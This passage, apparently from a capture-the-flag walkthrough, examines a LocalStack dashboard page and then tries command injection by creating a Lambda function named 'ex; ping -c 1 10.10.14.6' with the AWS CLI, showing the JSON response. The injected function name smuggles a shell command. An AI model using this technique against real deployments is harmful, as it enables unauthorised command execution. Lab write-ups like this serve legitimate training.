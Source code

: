 
It does…but the page is not complete - Where I would expect to find the body
is just this:

    
    
    ...[snip]...
    <div id="page" class="fullsize">
      <!-- Header -->
      <header id="header" role="banner" style="position: absolute;
          top: 0px; width: 100%; border-bottom: 1px solid #aaaaaa; background: #fafaf4">
        <nav class="aui-header aui-dropdown2-trigger-group" role="navigation">
          <div class="aui-header-inner">
            <div class="aui-header-primary">
              <h1 id="logo" class="aui-header-logo aui-header-logo-textonly">
                            <span class="aui-header-logo-device">
                    <img src="img/localstack_small.png" style="height: 30px; padding: 2px; margin-right: 10px;"/>
                  </span>
              </h1>
            </div>
          </div>
        </nav>
      </header>
    
      <!-- Content -->
      <section id="content" role="main" ui-view class="fullsize" style="position: absolute; top: 0px; padding-top: 40px; z-index: 1"> </section>
    
    </div>
    ...[snip]...
    

This is a shell page that uses JavaScript to load the rest of the application.
That’s ok for now, but worth keeping in mind.

#### Initial Attempt

Given that the dashboard exists, this seems like a valuable path to explore.
The exploit is simply putting an injection into the function name, and then
visiting the dashboard. I tried some shots in the dark to get this to work,
such as:

    
    
    oxdf@hacky$ aws lambda create-function --function-name 'ex; ping -c 1 10.10.14.6' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler index.handler --runtime nodejs12.x
    {
        "FunctionName": "ex; ping -c 1 10.10.14.6",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex; ping -c 1 10.10.14.6",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T18:38:39.821+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "eefc33ce-bc21-4f97-963f-9a2aa2c3987d",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }
    